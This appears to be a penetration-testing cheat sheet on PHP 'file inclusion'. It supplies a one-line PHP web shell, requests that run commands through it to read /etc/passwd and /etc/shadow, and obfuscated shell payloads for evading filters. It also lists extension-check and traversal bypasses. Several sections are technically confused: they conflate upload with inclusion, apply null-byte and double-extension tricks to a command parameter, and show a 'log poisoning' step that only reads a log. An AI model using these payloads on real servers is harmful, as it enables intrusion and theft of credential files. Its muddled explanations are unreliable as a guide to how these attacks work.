 # File Inclusion

If a web application allows an attacker to include a file, the attacker can execute arbitrary code on the server. This is known as file inclusion. Let's take a look at a simple example of file inclusion with PHP in a web application.

```php
<?php
   system($_GET['cmd']);
?>
```

After uploading this script to the server, you can try to include the file with the following request using Burp Suite or `curl` to test the file inclusion vulnerability. The request might be modified like this:

```php
GET /upload.php?cmd=cat /etc/passwd
Host: example.com
```

If this works, Remote Code Execution (RCE) is possible.

## File Extension Checks

If the application is filtering the file extension, you can bypass it by using a null byte `%00` or double extensions like `file.php.jpg`, `.phP`, or `php3`.

## Payload Examples

After uploading the file, you can try the following payloads to exploit file inclusion vulnerabilities for different characters of the file path, especially if validation is not done properly. This could lead to RCE as well.

```shell
cat /etc/shadow
cat "/e"tc'/shadow'
cat /etc/sh*dow
cat /etc/sha$()dow
cat /etc/sha${}dow
```

You can also try to use HEX encoding to bypass the filters.

```shell
'\x73\x79\x73\x74\x65\x6d'('ls');
```

## Additional Techniques

### Using Null Byte Injection

Null byte injection can be used to truncate the file extension, allowing the execution of PHP code.

```shell
GET /upload.php?cmd=cat /etc/passwd%00
Host: example.com
```

### Using Double Extensions

Double extensions can trick the application into treating the file as a different type.

```shell
GET /upload.php?cmd=cat /etc/passwd.php.jpg
Host: example.com
```

### Using Alternative PHP Extensions

Some servers may support alternative PHP extensions like `.phar`, `.phtml`, or `.php3`.

```shell
GET /upload.php?cmd=cat /etc/passwd.php3
Host: example.com
```

### Using Directory Traversal

Directory traversal can be used to access files outside the intended directory.

This alos known as Local File Inclusion (LFI) and `dot-dot-slash` attack.

```shell
GET /upload.php?cmd=cat ../../../../etc/passwd
Host: example.com
```

### Using Log Poisoning

Log poisoning involves injecting malicious code into log files that are later included by the application.

```shell
GET /upload.php?cmd=cat /var/log/apache2/access.log
Host: example.com
```
